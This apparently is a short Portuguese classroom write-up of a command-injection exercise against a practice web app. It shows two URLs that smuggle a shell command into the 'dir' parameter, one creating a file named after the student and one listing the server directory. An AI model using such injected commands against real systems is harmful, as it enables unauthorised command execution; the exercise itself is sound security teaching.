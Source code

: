# Command Injection

Essa prática foi feita na sala de aula, consistia na injeção de comando para a criação de um arquivo com meu nome.

*criando o arquivo no servidor:
```
http://commandinjection.herokuapp.com/?dir=folder;touch esdrasemanuel.txt
```
*listando:
```
http://commandinjection.herokuapp.com/?dir=folder;ls
```
